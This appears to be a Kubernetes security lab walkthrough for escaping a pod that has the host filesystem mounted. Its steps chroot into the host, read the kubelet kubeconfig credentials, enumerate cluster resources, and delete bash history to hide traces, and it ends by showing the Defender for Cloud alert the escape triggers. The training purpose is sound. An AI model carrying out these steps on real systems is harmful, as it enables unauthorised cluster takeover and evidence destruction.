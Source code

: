 The goal of this scenario is to escape out of the running docker container on the host system using the available misconfigurations. 

The secondary goal is to use the host system-level access to gain other resources access and if possible even go beyond this container, node, and cluster-level access

### Pod to use in this lab
system-monitor
### Misconfiguration: 
Sensitive Mount, the full host system / volume is mounted in the pod, in /host-system


After performing the analysis, you can identify that this container has full privileges of the host system and allows privilege escalation. As well as /host-system is mounted

install libraries to use capsh and see current capabilities and permissions of container

```
apt update && apt install -y libcap2-bin
```

```
capsh --print
```
```
capsh --print | grep cap_sys_admin
```

```
mount
```

Now you can explore the mounted file system by navigating to the /host-system path

```
ls /host-system/
```

Escape to the node, gainining access to the host system privileges using chroot. We also launch bash from this command

```
chroot /host-system bash
```

The Kubernetes node configuration can be found at the default path, which is used by the node level kubelet to talk to the Kubernetes API Server. If you can use this configuration, you gain the same privileges as the Kubernetes node.

```
cat /var/lib/kubelet/kubeconfig
```

Using the kubelet configuration to list the Kubernetes cluster-wide resources

```
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get all -n kube-system
```

You are able to obtain the available nodes in the Kubernetes cluster by running the following command:

```
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get nodes
```

We could also start SSH server to allow remote access

And finally, remove your traces by deleting bash history

```
rm -rf ~/.bash_history
```


Very soon you will see an alert showing up on the Defender for Cloud console similar to this


![container-escape-alert](/images/container-escape-alert.PNG)

